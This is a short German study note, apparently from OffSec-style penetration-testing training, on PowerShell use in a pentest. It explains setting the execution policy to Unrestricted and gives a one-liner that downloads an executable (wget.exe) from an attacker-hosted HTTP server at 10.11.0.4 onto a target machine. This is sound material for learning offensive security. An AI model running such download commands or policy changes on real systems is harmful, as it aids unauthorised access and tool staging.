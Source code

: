 # OffSec - Powershell und Powercat

## Execution Policy

Um #Powershell effektiv in einem #Penetrationtest verwenden zu können, muss die #Execution-Policy auf "Unrestricted" gesetzt werden.

`Set-ExecutionPolicy Unrestricted`

Mit folgendem Befehl kann überprüft werden, wie die Execution-Policy gesetzt ist:

`Get-ExecutionPolicy`

## File Transfers

Mit #Powershell können auch #FileTransfers durchgeführt werden.
Wie folgt wird ein #Download vorgenommen - Vorausetzung ist, dass auf dem Host ein HTTP-Server eröffnet wurde siehe: [[OffSec - Simple HTTP-Server]] 

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`



